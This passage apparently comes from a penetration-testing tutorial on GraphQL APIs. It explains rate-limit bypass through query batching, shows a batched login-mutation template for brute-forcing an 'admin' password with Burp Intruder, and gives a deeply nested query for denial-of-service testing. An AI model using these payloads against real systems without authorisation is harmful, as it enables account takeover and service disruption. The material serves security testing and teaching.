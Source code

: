 2. **Testing rate limit bypass**:
   - Add more queries to the batch to see if you can make more queries than normally allowed
   - Monitor for rate limit error messages
   - If no errors occur, the API may be vulnerable to rate limit bypassing

3. **Brute force attacks with Burp Intruder**:
   - For password brute forcing, create a batch template like:
     ```
     [
       {"query": "mutation { login(username: \"admin\", password: \"§password§\") { token } }"},
       {"query": "mutation { login(username: \"admin\", password: \"§password2§\") { token } }"},
       {"query": "mutation { login(username: \"admin\", password: \"§password3§\") { token } }"}
     ]
     ```
   - Send to Intruder and configure Cluster Bomb attack type
   - Set payloads for each position from your password list
   - Configure grep patterns to identify successful logins

4. **Resource exhaustion testing**:
   - Create a batch with increasingly complex or numerous queries
   - Monitor server response times and errors
   - Gradually increase the load until you observe performance degradation

### Denial of Service (DoS) Attacks

GraphQL's flexibility makes it particularly vulnerable to DoS attacks. Let's examine how to test these using Burp Suite:

#### Nested Query Attacks

GraphQL allows deeply nested queries that can cause exponential performance degradation:

```graphql
query NestedFriends {
  user(id: "1") {
    friends {
      friends {
        friends {
          friends {
            friends {
              friends {
                # And so on...
    name
    email
              }
            }
          }
        }
      }
    }
  }
}
```
